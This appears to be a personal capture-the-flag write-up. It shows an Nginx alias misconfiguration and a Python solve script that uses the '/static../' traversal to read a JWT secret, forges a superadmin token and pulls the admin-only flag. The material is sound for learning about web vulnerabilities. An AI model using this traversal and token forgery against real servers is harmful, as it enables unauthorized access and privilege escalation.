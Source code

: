 ```yaml
---
ai_date: 2025-04-27 05:14:08
ai_summary: Misconfigured Nginx alias allowed directory traversal in static files leading to JWT secret exposure and privilege escalation.
ai_tags:
  - lfi
  - rfi
  - ssrf
created: 2024-09-01T17:04
updated: 2025-07-14T09:46
---
```


After the event ended I found out that nginx misconfiguration was the solution.

😭 its nginx agian!

```nginx
location /static {
	alias /app/static/;
}
```

## solve script

```python
import re
import jwt
import requests
s = requests.Session()
t = "https://14ae2eb9-b747-42c1-9694-ee6dc5bf0b39.bugg.cc"
sec = s.get(t+"/static../jwt.secret").text
print(sec)
print(s.post(t+"/register", json={"username": "kumo", "password": "kumo"}))
print(s.post(t+"/login", json={"username": "kumo", "password": "kumo"}))
aT = s.cookies.get_dict()['accesstoken']
data = jwt.decode(aT, sec, algorithms=["HS256"])
data['role'] = 'superadmin'
aT = jwt.encode(data, sec, algorithm="HS256")
s.cookies.set('accesstoken', aT, domain="14ae2eb9-b747-42c1-9694-ee6dc5bf0b39.bugg.cc")
pid = re.search(r"<td>Welcome to the CTF!</td>\s*<td>(.+)</td>", s.get(t+"/admin/dashboard").text).group(1)
print(s.get(t+"/user/posts/"+pid).text)
```

```flag
CSCTF{0a97afb3-64be-4d96-aa52-86a91a2a3c52}
```